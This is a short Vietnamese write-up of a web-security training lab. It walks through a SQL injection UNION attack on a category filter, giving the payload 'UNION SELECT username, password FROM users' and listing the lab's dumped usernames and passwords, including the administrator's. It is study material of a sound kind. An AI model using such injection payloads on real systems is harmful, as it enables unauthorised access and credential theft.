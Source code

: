 # SQL injection UNION attack, retrieving data from other tables
***
![](../images/5-1.png)

+ Lab trên chứa lỗ hổng sql injection trong bộ lọc category

+ Mục tiêu: truy xuất tất cả username và password, đồng thời sử dụng thông tin để đăng nhập với tư cách administrator.

+ Đầu tiên ta sẽ xác định số cột trả về của query:
  
![](../images/5-2.png)

Ta thu được số cột là 2, tiếp theo ta sẽ kiểm tra cột nào có kiểu dữ liệu là string trong query:

![](../images/5-3.png)

Sau khi thu được kết quả là cả 2 cột của query đều là kiểu dữ liệu string, ta tiến hành lấy username và password của bảng users bằng câu lệnh:

```UNION SELECT username, password FROM users```

![](../images/5-4.png)

+ Ta thu được 3 tài khoản:
Username: carlos password: pvgpp9o6trxpr93ahccn
Username: wiener password: wbdwdd8pkp9lt5umm54o
Username: administrator password: 0qr272qw91l66n6acds8
